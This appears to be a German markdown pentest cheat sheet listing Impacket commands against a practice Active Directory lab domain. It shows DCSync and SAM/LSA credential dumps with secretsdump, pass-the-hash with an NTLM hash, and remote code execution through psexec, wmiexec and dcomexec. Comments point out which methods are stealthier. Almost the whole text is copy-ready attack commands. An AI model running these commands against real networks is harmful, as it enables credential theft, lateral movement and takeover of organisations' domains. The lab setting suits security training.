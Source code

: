 
## 2. Impacket Advanced Techniques

### 2.1 Secretsdump - Credential Extraction

#### DCSync Attack (falls Rechte vorhanden)
```bash
# Vollständiger DCSync gegen alle DCs
secretsdump.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11 -outputfile north_domain_dump

# Nur NTLM-Hashes (schneller)
secretsdump.py -just-dc-ntlm north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11

# Spezifische Benutzer-Hashes
secretsdump.py -just-dc-user administrator north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11
```

#### LSA Secrets & Cached Credentials
```bash
# Falls lokale Admin-Rechte auf Workstation/Server
secretsdump.py -sam -security -system north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.22

# Mit Pass-the-Hash
secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b north.sevenkingdoms.local/administrator@192.168.20.11
```

### 2.2 PSExec & WMI Execution

#### PsExec für Remote Code Execution
```bash
# Mit Credentials
psexec.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11

# Mit Pass-the-Hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b north.sevenkingdoms.local/administrator@192.168.20.11 'cmd.exe'

# Mit Kerberos-Ticket
export KRB5CCNAME=administrator.ccache
psexec.py -k -no-pass administrator@winterfell.north.sevenkingdoms.local
```

#### WMI Execution (stealthier)
```bash
# WMI für Remote Commands
wmiexec.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11

# DCOM Execution (noch stealthier)
dcomexec.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11
```
